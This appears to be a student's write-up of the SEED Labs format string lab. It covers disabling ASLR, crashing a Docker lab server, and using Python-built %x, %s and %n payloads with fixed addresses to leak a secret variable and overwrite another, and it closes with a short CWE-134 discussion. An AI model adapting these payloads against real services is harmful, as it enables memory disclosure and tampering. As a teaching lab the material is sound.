






# Format String Lab

## Setup
In an initial phase we turned off the address randomization, to be sure that the attack can discover the location and order of the addresses of the program.




Then we opened two terminals, one with the servers using the Docker from seed-labs:




and the other(the client) to comunicate with the servers. This allowed to see the mensages exchanged by both sides. By sending a simple string to the server, using the command


The server returns some useful addresses to the next tasks:



Finally, we compiled the program that runs on the server (``format.c``) using the flag ``-z execstack`` because that's the only way to execute code inside the stack.
As a quick note, during the compilation we saw a warning message that was generated by a countermeasure implemented by the gcc compiler against format string vulnerabilities, but we ignored this for now.


## Question 1 - Tasks 1-3

### Task 1 - Crashing the program

To crash the server, all that was needed was to insert the following input string:


The format string retrieves the 5 address immediately above its position on the stack and attempts to print the string at that address. This most likely occurs in an area outside the process's virtual memory.


Since the server did not receive the "Returned properly" message, the server crashed.

### Task 2 - Printing Out the Server Program’s Memory

#### Task 2.A

To print the first 4 bytes of the input from the format string, the input needs to contain a known value to be more easily identified. In our case, we will use "AAAA", which in hexadecimal is "41414141".
The initial idea is to give as input "AAAA" concatenated with various "%x"


On the server output it was possible to see:


The final "41414141" its the string address "AAAA" given as input. 
Between "AAAA" and "41414141" there are 504 chars and we know that one address is contituted by 8 char, so there are 504/8 = 63 addresses on the stack between the format string and the buffer.

So, we concluded that in this program configuration, to print the first 4 bytes from the initial input we need to create a string with exactly 63 "%x".

#### 2.B

In this task, we are supposed to print the value of the secret_message variable, located at 0x080b4008.

We decided to use python in this task (and the other tasks moving forward) due the increasing complexity of the inputs (for example, the 63 ".%x")

``` py
secretmessage = 0x080b4008

output = b""

output += secretmessage.to_bytes(4, byteorder="little")

output += b".%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s"

with open("task2b.bin", "wb") as f:
	f.write(output)

print("output criado")
```

We initialize an empty byte string which hold the malicious payload, and the we add the payload itself.

Starting with the target address, we convert it into a 4-byte sequence in litle endian order. Then we add the Padding, with the 63 ".%x" we used before (since we know the stack offset is 63) and finishing it with the ".%s", which will print the data located at the address it is pointing to (In this case, it's the 64th argument position in the stack, our target address).

Then, the final payload is written to a file, in this case called task2.bin.



Using cat, we sent the payload to the server, which resulted in this output:


The server displayed the "secret message" correctly, concluding task 2.B.

### Task 3 - Modifying the Server Program’s Memory

#### 3.A

The goal here is to change the value of the server's target variable, located at 0x080e5068 to any other value.

We used a logic similar to the one in 2.B, but instead of "%s" we used "%n", which will write the total length of the printed string into the address specified on the start of the input buffer (our target address), overwriting the original value.

```py
import sys

target = 0x080e5068

output = b""

output += target.to_bytes(4, byteorder='little')

output += b".%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n"

with open("task3A.bin", "wb") as f:
	f.write(output)

print("output criado")
```

Following the same logic, the payload is written in task3A.bin.


We sent the file to server, receiving this output:



The target variable's value is now 0x0000012e, instead of the original value of 0x11223344.

#### 3.B

This time, the value of the server's target variable needs to be changed to exactly 0x5000. Converting that value to decimal, we get 20480. So, our input will need to print 20480 characters before "%n".


We opted to use "%.8x" this time, instead of ".%x" to make sure we always print exactly 8 bytes each time. However, the address and 62 * "%.8x" is not enough to get to 20480 characters, we are still 19980 (20480 - 4 - 62*8 = 19980) characters short. So, we used "%19980x" to print the rest of the characters as blank spaces.


```py
import sys


target = 0x080e5068


output = b""


output += target.to_bytes(4, byteorder='little')


output += b"%.8x" * 62


output += b"%19980x"


output += b"%n"


with open("task3B.bin", "wb") as f:
    f.write(output)


print("output criado")
```


Once more, we used cat to send the file with the payload (task3B.bin) to the server:


And the server output was the following:




The value of server's target variable was succesfully changed to 0x5000.

## Question 2

"CWE-134: Uncontrolled Format String" happens when data given by the user is passed the format string argument to a standard library function, such as printf(), which allows attackers to inject format specifiers like the ones we've been using ("%s" and "%n" for example) to control stack access.

### Does the format string always have to be allocated on the stack for the vulnerability to exist?


### Of the tasks performed, which attacks would not work if the format string were allocated on the heap, and why?